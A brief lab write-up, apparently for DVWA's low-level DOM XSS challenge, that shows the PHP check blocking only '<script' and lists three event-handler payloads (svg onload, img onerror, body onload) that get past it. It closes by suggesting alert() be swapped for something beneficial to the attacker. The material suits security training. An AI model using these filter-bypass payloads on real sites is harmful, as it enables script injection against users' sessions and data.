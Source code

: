 ## XSS DOM low level

we go to [http://127.0.0.1/vulnerabilities/xss_d/?default=unique_message](http://127.0.0.1/vulnerabilities/xss_d/?default=Unique_message)

source code : 

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>

```


since it doesnt accept <script> </script>
we can have these payloads that can execute javascript 



```html
</select><svg onload=alert('XSS')>
</select><img src=x onerror=alert('XSS')>
</select><body onload=alert('XSS')>
```


where we change the alert() function for an action that benefits us 


